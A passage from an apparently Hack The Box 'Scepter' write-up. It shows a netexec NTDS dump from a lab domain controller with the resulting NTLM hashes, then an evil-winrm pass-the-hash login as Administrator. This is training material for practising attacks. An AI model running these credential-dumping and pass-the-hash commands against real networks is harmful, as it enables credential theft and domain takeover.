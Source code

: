 ```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ netexec smb 10.129.248.205 --use-kcache --ntds
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
SMB         10.129.248.205  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.129.248.205  445    DC01             [+] scepter.htb\p.adams from ccache 
SMB         10.129.248.205  445    DC01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         10.129.248.205  445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.248.205  445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:a291ead3493f9773dc615e66c2ea21c4:::
SMB         10.129.248.205  445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.248.205  445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c030fca580038cc8b1100ee37064a4a9:::
SMB         10.129.248.205  445    DC01             h.brown\d.baker:1106:aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce:::
SMB         10.129.248.205  445    DC01             scepter.htb\a.carter:1107:aad3b435b51404eeaad3b435b51404ee:2e24650b1e4f376fa574da438078d200:::
SMB         10.129.248.205  445    DC01             scepter.htb\h.brown:1108:aad3b435b51404eeaad3b435b51404ee:4ecf5242092c6fb8c360a08069c75a0c:::
SMB         10.129.248.205  445    DC01             scepter.htb\p.adams:1109:aad3b435b51404eeaad3b435b51404ee:1b925c524f447bb821a8789c4b118ce0:::
SMB         10.129.248.205  445    DC01             scepter.htb\e.lewis:2101:aad3b435b51404eeaad3b435b51404ee:628bf1914e9efe3ef3a7a6e7136f60f3:::
SMB         10.129.248.205  445    DC01             scepter.htb\o.scott:2102:aad3b435b51404eeaad3b435b51404ee:3a4a844d2175c90f7a48e77fa92fce04:::
SMB         10.129.248.205  445    DC01             scepter.htb\M.clark:2103:aad3b435b51404eeaad3b435b51404ee:8db1c7370a5e33541985b508ffa24ce5:::
SMB         10.129.248.205  445    DC01             DC01$:1000:aad3b435b51404eeaad3b435b51404ee:0a4643c21fd6a17229b18ba639ccfd5f:::
SMB         10.129.248.205  445    DC01             [+] Dumped 11 NTDS hashes to /home/kali/.nxc/logs/DC01_10.129.248.205_2025-04-20_235400.ntds of which 10 were added to the database
SMB         10.129.248.205  445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.129.248.205  445    DC01             [*] cat /home/kali/.nxc/logs/DC01_10.129.248.205_2025-04-20_235400.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.129.248.205  445    DC01             [*] grep -iv disabled /home/kali/.nxc/logs/DC01_10.129.248.205_2025-04-20_235400.ntds | cut -d ':' -f1
```

Now we were able to `Pass-the-Hash (PtH)` our way as `Administrator` into the box and grab the `root.txt`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ evil-winrm -i dc01.scepter.htb -u administrator -H a291ead3493f9773dc615e66c2ea21c4
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
